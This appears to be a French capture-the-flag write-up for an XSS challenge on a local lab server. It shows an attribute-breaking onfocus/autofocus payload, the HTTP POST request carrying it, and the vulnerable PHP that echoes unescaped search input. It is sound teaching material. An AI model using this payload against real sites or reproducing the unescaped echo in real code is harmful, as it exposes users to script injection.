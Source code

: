 # xss2

## Exploitation

Le second challenge propose une fonctionnalité de recherche :&#x20;

![](<../../../.gitbook/assets/image (1) (1).png>)

Lorsque je renseigne un mot clé, il n'est pas réfléchi dans le message d'erreur mais est présent en tant que valeur du champ de recherche :&#x20;

![](<../../../.gitbook/assets/image (12).png>)

`value` est un attribut HTML safe, l'injection ne peut se faire directement. Je vais donc préparer ma payload afin de m'échapper de cet attribut puis forger mon attaque. Il y a plusieurs solutions ici mais je choisis de passer par un autofocus `whatever" onfocus="alert(1)" autofocus x="` :&#x20;

```http
POST /xss2/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 83
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss2/
Upgrade-Insecure-Requests: 1

search=whatever%22+onfocus%3D%22alert%281%29%22+autofocus+plop%3D%22&submit=Envoyer
```

![](<../../../.gitbook/assets/image (4).png>)

## Analyse du code source

La valeur du paramètre `$keyword`, récupérée depuis la variable `$_POST['search']` est affichée directement grâce à la directive `echo` en tant que valeur de l'attribut HTML `value`. Aucune protection étant en place, l'injection est donc évidente :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }
?>

<input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo $keyword; }?>"
```
